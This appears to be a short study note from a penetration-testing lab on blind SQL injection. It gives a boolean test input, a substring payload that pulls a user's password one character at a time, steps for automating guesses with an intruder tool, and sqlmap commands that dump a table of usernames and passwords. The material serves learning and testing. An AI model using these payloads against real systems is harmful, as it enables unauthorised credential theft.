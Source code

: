 ##### Attack Vector
1. **Look For The Injectable Parameter**
2. **Look For 2 Conditional Inputs, 1 that returns true and another returns false**
3. **Try Testing for Injection**: `' or 1=1`
4. **Injection Process**:
```sql
True Input` and substring(SELECT password FROM injection0x01 WHERE username='jessamy', 1, 1) = 'a'# 
```
5. **Automate the Process on the Intruder**:
![[Intruder Payload Positions.png]]
First set the positions for the payload in the request
![[Intruder Set Payload.png]]
Second enter a simple list of characters to be replaced by the placeholder
![[Finding the Match.png]]
Third sort by length of filter to see the success result (In this example the 'z')

##### Using SQL Map
1. **Copy the request and paste it in a file.txt**
	```bash
	$ sqlmap -r file.txt --level=2
	```
	- This will show if the parameter is injectable or not
	- This will also show you some payload example to exploit the vulnerability
2. **Dump the Values**
	```bash
	$ sql map -r file.txt --level=2 --dump -T injection0x02
	```
	- This will dump the data from the injection0x02 table (usernames & passwords)


